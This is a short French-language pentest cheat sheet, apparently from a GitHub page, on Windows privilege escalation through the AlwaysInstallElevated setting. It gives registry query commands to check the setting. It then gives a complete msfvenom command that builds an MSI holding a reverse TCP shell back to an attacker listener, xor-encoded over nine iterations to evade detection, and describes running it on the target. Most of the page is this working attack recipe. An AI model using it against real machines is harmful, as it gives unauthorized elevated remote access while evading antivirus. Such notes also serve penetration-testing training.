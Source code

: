 #### Vérification du Paramètre `AlwaysInstallElevated`

- **Description :** Le paramètre `AlwaysInstallElevated` permet l'installation de programmes MSI avec des privilèges élevés sans requérir explicitement les droits d'administrateur. Si activé, il peut être exploité pour obtenir une élévation de privilège.
 
- **Commandes de Vérification :**

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Ces commandes vérifient si le paramètre est activé dans les registres HKCU (HKEY_CURRENT_USER) et HKLM (HKEY_LOCAL_MACHINE). Une réponse "0x1" indique que le paramètre est activé.  
 

#### Création d'un Reverse Shell avec MSFVenom

- **Commande :** `msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=6666 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi`  
    
- **Description :** Cette commande utilise MSFVenom pour créer un fichier MSI contenant un payload de reverse shell. Le fichier MSI peut ensuite être exécuté sur la machine cible pour obtenir un shell avec des privilèges élevés.
- **Détails :**
- `--platform windows` et `--arch x64` spécifient la plateforme et l'architecture cible.
- `--payload windows/x64/shell_reverse_tcp` définit le payload pour un reverse shell TCP.
- `LHOST=tun0` et `LPORT=6666` définissent l'adresse et le port de l'écouteur sur l'attaquant.
- `--encoder x64/xor` et `--iterations 9` appliquent un encodage pour échapper à la détection.
- `--format msi` spécifie le format de sortie comme MSI.
- `--out AlwaysInstallElevated.msi` nomme le fichier de sortie.


Exploitation

- **Exécution du Fichier MSI :** Une fois le fichier MSI créé, il peut être exécuté sur la machine cible. Si `AlwaysInstallElevated` est activé, le reverse shell sera lancé avec des privilèges élevés.